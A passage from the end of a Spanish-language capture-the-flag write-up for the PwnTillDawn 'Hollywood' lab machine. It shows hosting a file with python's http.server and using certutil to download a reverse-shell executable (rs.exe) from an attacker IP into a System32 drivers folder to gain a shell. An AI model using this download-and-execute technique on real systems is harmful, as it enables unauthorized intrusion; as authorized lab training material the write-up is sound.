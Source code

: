 `python3 -m http.server 80` (montar nuestro servidor http)

ahora descargamos nuestro exe con la ayuda de certutil que es la "versión" wget en windows.

`certutil -urlcache -split -f http://10.66.66.106/rs.exe C:\\Windows\\System32\\spool\\drivers\\color\\rs.exe`

y vualá, tenemos shell.

![im5](img/333.png)

ahora sólo queda buscar la última flag que está en "Documents" y listo, tendríamos a Hollywood terminada.

![im5](img/imagen_2021-03-09_025622.png)


Contacto: [Linkedin](https://www.linkedin.com/in/jair-rodriguezz/) [Twitter](https://twitter.com/_niggurath_)


Write-ups have been authorized for this machine by the PwnTillDawn Crew! We are just asking you to give us credit by adding a backlink to [wizlynxgroup](https://www.wizlynxgroup.com/) and [Pwntilldawn](https://online.pwntilldawn.com/) in your write-up.
